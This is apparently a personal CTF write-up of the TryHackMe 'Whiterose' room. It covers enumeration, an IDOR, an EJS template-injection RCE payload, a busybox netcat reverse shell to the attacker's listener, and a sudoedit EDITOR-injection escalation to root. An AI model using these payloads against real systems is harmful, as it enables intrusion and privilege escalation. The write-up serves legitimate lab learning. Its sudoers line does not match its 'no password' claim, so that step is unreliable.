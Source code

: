 23-02-2025 21:30
Status: #idea
Tags: [[Writeups]]

# Whiterose (ENG)

At the beginning, we are informed that the user **Olivia Cortez** with the password **olivi8** will be useful throughout the machine.

After an nmap scan, we can determine that ports **80** and **22** are open, meaning the **SSH** and **Nginx** services are active.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

The versions of these services are **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7** and **nginx/1.14.0** respectively.

The operating system of the machine is **Linux**.

When accessing the web, we will see a maintenance message.

![[Pasted image 20250222203344.png]]

## Enumeration

### Directories

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

With this search, nothing was found, so I proceed to enumerate VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

As we can see, **admin** stands out, so we will edit the **/etc/hosts** file to access it.

Once we access, there is an administration panel.

![[Pasted image 20250222204508.png]]

If we try to use the credentials provided earlier in the room, we will gain access to the panel.

![[Pasted image 20250222205606.png]]

The data we see in the panel is censored, so we won't be able to see Tyrell's phone number.

If we access the messages section, we will see a URL with an interesting parameter. If we change it, we can perform an **IDOR** and obtain the credentials of an administrator account.

With this, we can now obtain Tyrell's phone number.

If we access the settings section and intercept the request, we can play with the parameters and see that we can cause a **500 error** that will show an interesting trace:

```text
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

The **settings.ejs** file stands out. If we search for any type of exploit related to this, we can compromise the machine.

And luckily, there is a **CVE** that allows us to execute commands (RCE) on the machine.

With this payload, we can execute the command **"whoami"**:

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Since we can execute this type of commands, we could obtain a reverse shell, which would allow us to execute commands directly on the machine without needing to interact through requests.

With the following payload, we can receive the connection on our listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Later, we will see that a connection is received in our netcat, and we can spawn a shell with Python or other methods:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
```

If we continue investigating within the directories of our server, we will find the **user.txt** flag:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$
```

To see which commands our user can execute, we will run **sudo -l** and see that we have permissions to execute **sudoedit**:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

From here, we need to see how to exploit the machine and take advantage of this.

We see that there is an exploit we can perform that would allow us to gain root privileges:

```shell
export EDITOR="vim -- /etc/sudoers"
```

This will allow us to open **vim** with the **/etc/sudoers** file when we open the **/etc/nginx/sites-available/admin.cyprusbank.thm** file.

```shell
web ALL=(ALL:ALL) ALL
```

And now we can run **sudo su** without needing a password :).

Now, we just need to find the **root.txt** file, view its contents, and we have completed the room.

This flag will be found in **/root**, and with a **cat**, we will have our flag.





---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
